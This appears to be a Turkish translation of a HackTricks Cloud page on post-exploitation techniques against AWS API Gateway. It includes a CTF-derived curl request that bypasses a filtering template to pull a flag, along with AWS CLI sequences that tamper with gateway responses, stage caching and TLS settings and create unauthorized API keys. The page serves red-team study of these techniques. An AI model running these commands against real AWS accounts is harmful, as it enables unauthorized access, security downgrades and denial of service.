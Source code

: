 # AWS - API Gateway Son Saldırı İşlemleri

{% hint style="success" %}
&#x20;AWS Hacking'i öğrenin ve uygulayın:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
&#x20;GCP Hacking'i öğrenin ve uygulayın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## API Gateway

Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Erişimi olmayan API'lere Erişim

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) adresinde `com.amazonaws.us-east-1.execute-api` hizmeti ile bir uç nokta oluşturabilir, bu uç noktayı erişiminizin olduğu bir ağda (muhtemelen bir EC2 makinesi aracılığıyla) açabilir ve tüm bağlantılara izin veren bir güvenlik grubu atayabilirsiniz.\
Ardından, EC2 makinesinden uç noktaya erişebilir ve dolayısıyla daha önce açılmamış olan gateway API'sını çağırabilirsiniz.

### İstek gövdesi geçişini Atlatma

Bu teknik [**bu CTF çözümünde**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) bulunmuştur.

[**AWS belgelerinde**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) belirtildiği gibi, `PassthroughBehavior` bölümünde, varsayılan olarak, **`WHEN_NO_MATCH`** değeri, isteğin **Content-Type** başlığını kontrol ederken, isteği herhangi bir dönüşüm olmadan arka uca iletecektir.

Bu nedenle, CTF'de API Gateway, isteğin `Content-Type: application/json` ile gönderildiğinde, yanıtta **bayrağın dışa çıkarılmasını engelleyen** bir entegrasyon şablonuna sahipti:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Ancak, **`Content-type: text/json`** başlıklı bir istek göndermek bu filtreyi engelleyebilir.&#x20;

Son olarak, API Gateway sadece `Get` ve `Options`'a izin verdiğinden, sınırsız bir şekilde POST isteği göndermek mümkündü. Bunun için isteğin gövdesinde sorguyu gönderip başlık olarak `X-HTTP-Method-Override: GET` kullanmak gerekiyordu:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Kullanım Planları DoS

**Numaralandırma** bölümünde **anahtarların kullanım planını elde etmenin** nasıl olduğunu görebilirsiniz. Eğer anahtara sahipseniz ve bu aylık olarak X kullanıma **sınırlıysa**, sadece kullanarak bir DoS saldırısına neden olabilirsiniz.

**API Anahtarı** sadece **`x-api-key`** adında bir **HTTP başlığı** içine **dahil edilmesi** gerekmektedir.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir Ağ Geçidi Yanıtını değiştirerek hassas bilgiler sızdıran veya kötü amaçlı betikler çalıştıran özel başlıklar veya yanıt şablonları ekleyebilir**.
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potansiyel Etki**: Hassas bilgilerin sızdırılması, kötü amaçlı betiklerin yürütülmesi veya API kaynaklarına izinsiz erişim.

{% hint style="info" %}
Test edilmesi gerekmektedir
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir API Gateway aşamasını değiştirerek trafiği farklı bir aşamaya yönlendirebilir veya önbellek ayarlarını değiştirerek önbelleğe alınmış verilere izinsiz erişim sağlayabilir**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potansiyel Etki**: Ön belleğe alınmış verilere izinsiz erişim, API trafiğini bozmak veya ona müdahale etmek.

{% hint style="info" %}
Test edilmesi gerekmektedir
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir API Gateway REST API yönteminin metod yanıtını değiştirerek hassas bilgiler sızdıran veya kötü amaçlı betikler çalıştıran özel başlıklar veya yanıt şablonları ekleyebilir**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potansiyel Etki**: Hassas bilgilerin sızdırılması, kötü amaçlı betiklerin yürütülmesi veya API kaynaklarına izinsiz erişim.

{% hint style="info" %}
Test Edilmesi Gerekiyor
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **API Gateway REST API ayarlarını değiştirerek günlüğü devre dışı bırakabilir veya minimum TLS sürümünü değiştirerek API'nin güvenliğini zayıflatabilir**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potansiyel Etki**: API'nin güvenliğini zayıflatma, yetkisiz erişime izin verme veya hassas bilgilerin ortaya çıkmasına neden olma potansiyeli.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` ve `apigateway:CreateUsagePlanKey` izinlerine sahip bir saldırgan, **yeni API anahtarları oluşturabilir, bunları kullanım planlarıyla ilişkilendirebilir ve ardından bu anahtarları yetkisiz API erişimi için kullanabilir**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potansiyel Etki**: API kaynaklarına izinsiz erişim, güvenlik kontrollerini atlatma.

{% hint style="info" %}
Test edilmesi gerekmektedir
{% endhint %}

<details>

<summary><strong>Sıfırdan kahraman olmaya kadar AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünlerini alın**](https://peass.creator-spring.com)
* [**The PEASS Family**]'yi keşfedin (https://opensea.io/collection/the-peass-family), özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu keşfedin
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek HackTricks** (https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
